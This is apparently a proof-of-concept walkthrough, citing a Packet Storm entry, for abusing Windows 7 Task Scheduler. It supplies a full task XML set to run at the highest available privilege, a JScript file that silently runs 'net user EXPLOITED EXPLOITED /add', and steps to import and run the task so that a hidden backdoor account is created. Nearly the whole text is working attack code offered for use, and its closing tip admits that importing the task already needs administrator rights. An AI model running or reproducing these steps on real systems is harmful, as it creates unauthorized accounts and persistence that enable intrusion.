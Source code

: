 From：https://packetstormsecurity.com/files/142191

---

TestOS: Win7x86

### 1. get UserId

cmd:

`whoami`

### 2. create file "w00tw00t.xml"

code:

```
<?xml version="1.0" encoding="UTF-16"?>
<Task version="1.2" xmlns="http://schemas.microsoft.com/windows/2004/02/mit/task">
  <RegistrationInfo>
    <Date>1337-01-01T13:37:07.9601296</Date>
    <Author>NT-AUTHORITY\SYSTEM</Author>
  </RegistrationInfo>
  <Triggers />
  <Principals>
    <Principal id="Author">
      <UserId>win-r7mm90erbmd\a</UserId>
      <LogonType>S4U</LogonType>
      <RunLevel>HighestAvailable</RunLevel>
    </Principal>
  </Principals>
  <Settings>
    <MultipleInstancesPolicy>Parallel</MultipleInstancesPolicy>
    <DisallowStartIfOnBatteries>true</DisallowStartIfOnBatteries>
    <StopIfGoingOnBatteries>true</StopIfGoingOnBatteries>
    <AllowHardTerminate>true</AllowHardTerminate>
    <StartWhenAvailable>true</StartWhenAvailable>
    <RunOnlyIfNetworkAvailable>false</RunOnlyIfNetworkAvailable>
    <IdleSettings>
      <StopOnIdleEnd>true</StopOnIdleEnd>
      <RestartOnIdle>false</RestartOnIdle>
    </IdleSettings>
    <AllowStartOnDemand>true</AllowStartOnDemand>
    <Enabled>true</Enabled>
    <Hidden>false</Hidden>
    <RunOnlyIfIdle>false</RunOnlyIfIdle>
    <WakeToRun>false</WakeToRun>
    <ExecutionTimeLimit>P3D</ExecutionTimeLimit>
    <Priority>7</Priority>
    <RestartOnFailure>
      <Interval>PT1M</Interval>
      <Count>3</Count>
    </RestartOnFailure>
  </Settings>
  <Actions Context="Author">
    <Exec>
      <Command>%USERPROFILE%\Desktop\EXPLOIT.JS</Command>
    </Exec>
  </Actions>
</Task>
```

Change it: `<UserId>win-r7mm90erbmd\a</UserId>`

Save to `%USERPROFILE%\Desktop\w00tw00t.xml`

### 3. create file "EXPLOIT.JS"

code:

```
suidshell = WScript.CreateObject("WScript.Shell");
suidshell.run("cmd.exe /c net user EXPLOITED EXPLOITED /add", 0);
```

Save to `%USERPROFILE%\Desktop\EXPLOIT.JS`

### 4. Run 'taskschd.msc' -> Import Task.. -> Select and Open: w00tw00t.xml -> Run

Add user EXPLOITED

Tips:

- require administrator permission to import Task




